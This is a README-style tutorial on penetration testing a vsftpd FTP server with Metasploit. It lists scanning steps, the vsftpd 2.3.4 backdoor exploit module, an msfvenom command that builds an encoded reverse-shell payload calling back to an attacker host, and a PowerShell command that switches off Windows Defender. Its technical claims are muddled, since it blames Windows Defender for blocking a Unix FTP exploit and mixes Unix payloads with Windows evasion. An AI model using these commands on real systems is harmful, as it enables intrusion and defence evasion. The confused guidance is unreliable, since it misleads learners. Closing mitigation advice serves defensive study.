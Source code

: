 # README: Vsftpd Penetration Testing with Metasploit

## Introduction
This document provides step-by-step instructions for performing a Vsftpd penetration test using Metasploit. Additionally, it covers common issues encountered, such as security defenses like Windows Defender, and provides insights into mitigation strategies.

## Prerequisites
Before proceeding, ensure you have the following:
- A target machine running a Vsftpd service.
- Metasploit installed on your penetration testing machine (e.g., Kali Linux).
- Proper authorization and permission to test the target system.
- Understanding of Windows security defenses (Windows Defender, firewall settings, etc.).

## Steps for Vsftpd Exploitation Using Metasploit

### 1. Start Metasploit Framework
```bash
msfconsole
```

### 2. Search for Available Vsftpd Exploits
```bash
search vsftpd
```
This command lists all available Vsftpd-related exploits and auxiliary modules.

### 3. Select the Vsftpd Auxiliary Scanner
To check if anonymous login is enabled, use:
```bash
use auxiliary/scanner/ftp/anonymous
```

### 4. Set Target IP Address
```bash
set RHOSTS 192.168.67.1
```

### 5. Execute the Scan
```bash
run
```
If anonymous login is enabled, it will be displayed in the results.

### 6. Check if Vsftpd Port is Open
To check if port 21 is open and accepting connections, run:
```bash
nmap -p 21 192.168.67.1
```
If port 21 is closed or filtered, further exploitation is not possible without additional reconnaissance.

### 7. Attempt Exploitation (If Vulnerable)
If a vulnerable Vsftpd service is found, use an appropriate exploit from Metasploit, such as:
```bash
use exploit/unix/ftp/vsftpd_234_backdoor
set RHOSTS 192.168.67.1
exploit
```

### 8. Failure Due to Windows Defender
If the attack fails, Windows Defender or other security measures may be blocking the exploit. Common reasons include:
- Windows Defender detecting and blocking Metasploit payloads.
- The Windows firewall blocking incoming Vsftpd requests.
- The target system having patched vulnerabilities.
- The Vsftpd service running in a sandboxed or protected environment.

### 9. Bypassing Windows Defender (Ethical Considerations)
If authorized, test alternative methods:
- **Encode the Payload:**
  ```bash
  msfvenom -p unix/meterpreter/reverse_tcp LHOST=192.168.67.100 LPORT=4444 -f elf -e x86/shikata_ga_nai > payload.elf
  ```
- **Disable Defender Temporarily (If Permitted):**
  ```powershell
  Set-MpPreference -DisableRealtimeMonitoring $true
  ```
- **Use Encrypted Tunnels:** Try an obfuscated payload with Cobalt Strike or a similar tool.

## Security Best Practices & Mitigation Strategies
If securing a Vsftpd server, follow these best practices:
1. **Disable Anonymous Access**: Ensure only authenticated users can access Vsftpd.
2. **Use Secure Alternatives**: Replace Vsftpd with SFTP (SSH File Transfer Protocol) or FTPS (FTP Secure).
3. **Restrict IP Access**: Limit access to known IP addresses.
4. **Enable Firewall Rules**: Block unauthorized access to port 21.
5. **Monitor Logs**: Regularly check system and Vsftpd logs for unauthorized login attempts.
6. **Apply Updates**: Keep Vsftpd software updated to patch known vulnerabilities.
7. **Use Strong Credentials**: Avoid default or weak usernames and passwords.
8. **Implement Intrusion Detection Systems (IDS)**: Detect and respond to suspicious Vsftpd traffic.

## Conclusion
Performing Vsftpd penetration testing helps identify security weaknesses before attackers exploit them. Always ensure proper authorization before conducting any security tests. If vulnerabilities are found, implement mitigation measures immediately.

---
**Disclaimer:** This document is for educational and authorized security testing purposes only. Unauthorized penetration testing or access to systems without permission is illegal.

